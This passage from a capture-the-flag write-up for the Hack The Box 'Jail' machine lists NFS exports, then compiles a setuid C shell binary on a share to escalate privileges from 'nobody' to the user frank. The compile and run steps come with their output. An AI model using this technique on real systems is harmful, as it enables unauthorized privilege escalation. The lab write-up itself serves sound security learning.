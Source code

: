 # Initial FootHold on the box as nobody
We use the BoF exploit and get a shell on the box as `nobody`.
![[Pasted image 20210722020542.png]]


We have some `nfs` shares which we can mount on this box.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/jail]
└──╼ # showmount -e 10.10.10.34
Export list for 10.10.10.34:
/opt          *
/var/nfsshare *
```

We could get down to uid `1000` user and create a suid file and on executing it on target we will be able to elevate our privileges.

# User Escalation to Frank
```python
magisk@Xyan1d3:/mnt$ nano suid.c
magisk@Xyan1d3:/mnt$ cat suid.c
#include<stdio.h>
int main()
{
setreuid(1000,1000);
printf("Suid Bashing\n");
system("/bin/sh");
}
magisk@Xyan1d3:/mnt$ gcc -o suid suid.c
suid.c: In function ‘main’:
suid.c:4:1: warning: implicit declaration of function ‘setreuid’ [-Wimplicit-function-declaration]
    4 | setreuid(1000,1000);
      | ^~~~~~~~
suid.c:6:1: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    6 | system("/bin/sh");
      | ^~~~~~
magisk@Xyan1d3:/mnt$ chmod +s suid
```

Now, We execute the file and get our privileges elevated to `frank`
```python
bash-4.2$ $ id
id
uid=99(nobody) gid=99(nobody) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
bash-4.2$ $ /var/nfsshare/suid
/var/nfsshare/suid
Suid Bashing
sh-4.2$ $ id
id
uid=1000(frank) gid=99(nobody) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
```
